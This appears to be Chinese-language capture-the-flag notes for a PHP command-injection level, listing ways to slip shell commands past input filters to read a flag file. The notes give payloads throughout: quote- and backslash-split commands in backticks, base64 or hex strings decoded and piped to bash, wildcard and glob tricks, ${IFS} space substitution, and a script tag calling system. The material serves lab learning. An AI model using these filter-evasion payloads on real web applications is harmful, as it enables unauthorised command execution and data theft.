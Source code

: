 ### Level 1
方法一：拼接绕过：
```
--反斜线
?code=print_r(`l\s /;ca\t /ffffffffffla\gafag`);
--单引号
?code=print_r(`l''s /;ca''t /ffffffffffla''gafag`);
--双引号
?code=print_r(`l""s /;ca""t /ffffffffffla""gafag`)
```

注意：我们的反斜线在我们字符串作为参数的时候拼接可能不是很好用，因此我们在字符串拼接的时候最好还是用双引号或者单引号来绕过。

方法二：利用变量绕过：
```
a=fl;b=ag;cat $a$b.php
```

方法三：利用 base 64 编码, hex 编码绕过：
```
cat (你要执行的指令进行base64编码)|base64 -d |bash;
cat (你要执行的指令的hex编码) |xxd -r -p |bash
```

方法四：插入注释（只适用于我们的命令，对于我们的参数不太可行）：
```
?code=print_r(`l/*test01*/s`);
```

方法五：通配符绕过 (只适用于我们的参数，不适用于我们的命令）：
```
?通配符
?code=print_r(`c""at /????????????????g`)

*通配符：
?code=print_r(`c""at /***************g`)

glob通配符绕过：
?code=print_r(`c""at /ffffffffffla{a,c,g}afag`);//挨个试
?code=print_r(`c""at%20/ffffffffffla[a-z]afag`);//有就试
```

方法八：过滤空格，问号等
我们如果过滤的字符是一个特殊字符，我们可以考虑找到这个二字符对应的 URL 编码，然后把我们的对应的 URL 编码写入到我们的对应当中：
```
? 
1.使用%3F绕过
2.如果我们是在php时使用的？，我们可以考虑用script标签绕过<script language='php'> system('ls /') </script>


空格 
1.%09,%0a,%0d
2.%20或者+
3. ${IFS}，$IFS$9,绕过，在Linux系统中，我们的${IFS}是一个环境变量，定义了字段分隔符。默认情况下，这个字段包括我们的空格，制表符，换行符
4. <,或者<>
5.{cat,flag.php}
；
1.通过?>来绕过我们的函数，然后再用<?开启一个新的函数
(）无法绕过，限制我们只能够调用
1.require
```
